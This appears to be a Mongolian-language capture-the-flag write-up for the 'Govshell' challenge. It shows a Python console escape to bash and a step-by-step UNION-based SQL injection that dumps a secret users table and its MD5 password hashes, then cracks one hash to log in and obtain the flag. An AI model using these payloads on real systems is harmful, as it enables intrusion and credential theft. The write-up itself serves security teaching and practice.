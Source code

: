 # Govshell
**Category:** Pwn, Web
**Points:** 1000
**Description:**

`ssh gov@218.100.84.106 -i [govshell.key](govshell.key)`

## Writeup
ssh-ээр орох үед python console угтаж байна лээ. Доорх командыг бичээд shell-рүү орно.

```python
import os
os.system("/bin/bash")
```

`/hz` нэртэй directory файх бөгөөд ороод үзвэл [/hz/index.html](index.html), [/hz/get_flag.py](get_flag.py) гэсэн 2 файл байв. Формыг бөглөөд илгээх хаяг нь `http://backend.government.local` гэсэн дотоод сүлжээний хаяг юм байна гэж ойлголоо.
shell-ээс гараад python console-руугаа оров. Дараах байдлаар request-үүдээ явуулж болохоор байлаа.

```python
import urllib
data = urllib.urlencode({"username": "", "password": ""})
r = urllib.urlopen("http://backend.government.local", data=data)
r.read()
```
Hint дээр sql injection ашиглаарай гэсэн байсан болохоор шууд injection хийж эхэлье.

username дээр `' OR '1' = '1` гэж явуулахад:
```
type: superuser нууц үг буруу
type: user нууц үг буруу
```

username дээр `' UNION ALL SELECT 1#`, `' UNION ALL SELECT 1, 2#`, `' UNION ALL SELECT 1, 2, 3#` гэж явуулаад сүүлийнх дээр алдаа заалгүй дараах хариу авлаа:
```
type: 2 нууц үг буруу
```
`type: ` гэдэг дээр хоёр дахь field-г хэвлэж байгаа юм байна.

username дээр `' UNION ALL SELECT 1, CONCAT(table_schema, '.', table_name),
3 FROM information_schema.tables WHERE '1' = '1` гэж явуулаад гарсан дараах
мөрийг олов:
```
type: secret.users нууц үг буруу
```

Энэ хүснэгтийн багануудын нэрийг олъё:
`' UNION ALL SELECT 1, column_name, 3 FROM information_schema.columns WHERE table_schema = 'secret' AND table_name = 'users' ORDER BY 'ordinal_position`
```
type: username нууц үг буруу
type: password нууц үг буруу
type: type нууц үг буруу
```

Хэрэглэгчдийн нэрийг олъё: `' UNION ALL SELECT 1, username, 3 FROM secret.users WHERE '1' = '1`
```
type: bat нууц үг буруу
type: dorj нууц үг буруу
```

Харгалзах нууц үгүүдийг олъё: `' UNION ALL SELECT 1, password, 3 FROM secret.users WHERE '1' = '1`
```
type: c44a471bd78cc6c2fea32b9fe028d30a нууц үг буруу
type: eb35db8a8ec54b209f125570b8e4ee0e нууц үг буруу
```

online md5 тайлагч [сайтаас](https://hashkiller.co.uk/md5-decrypter.aspx) хайж үзвэл `c44a471bd78cc6c2fea32b9fe028d30a`-г тайлж чадаж байна.

Ингээд `username: bat, password: asdfghjkl` гэсэн утгыг бөглөж илгээснээр flag-г гаргаж авлаа:

```
type: superuser
hz{0abc6322dc2040da457d1cb6303d98a0}
```
